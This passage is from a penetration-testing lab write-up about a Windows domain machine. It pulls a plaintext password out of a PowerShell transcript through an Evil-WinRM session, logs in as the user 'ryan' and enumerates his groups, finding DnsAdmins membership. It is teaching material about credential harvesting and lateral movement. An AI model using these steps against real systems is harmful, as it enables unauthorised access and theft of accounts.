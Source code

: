 Looking inside the file, we find some credentials:
~~~
*Evil-WinRM* PS C:\PSTranscripts\20191203> get-content PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt
...
**********************
Command start time: 20191203063515
**********************
PS>CommandInvocation(Invoke-Expression): "Invoke-Expression"
>> ParameterBinding(Invoke-Expression): name="Command"; value="cmd /c net use X: \\fs01\backups ryan Serv3r4Admin4cc123!
...
~~~



### 4.2- New Account Enumeration

Maybe Ryan's account has more privileges than Melanie's. We login as `ryan` using `Evil-WinRM` and try to figure this out:
~~~
*Evil-WinRM* PS C:\Users\ryan\Documents> whoami /groups

GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                            Attributes
========================================== ================ ============================================== ===============================================================
Everyone                                   Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580                                   Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                       Mandatory group, Enabled by default, Enabled group
MEGABANK\Contractors                       Group            S-1-5-21-1392959593-3013219662-3596683436-1103 Mandatory group, Enabled by default, Enabled group
MEGABANK\DnsAdmins                         Alias            S-1-5-21-1392959593-3013219662-3596683436-1101 Mandatory group, Enabled by default, Enabled group, Local Group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10                                    Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level     Label            S-1-16-8192

~~~
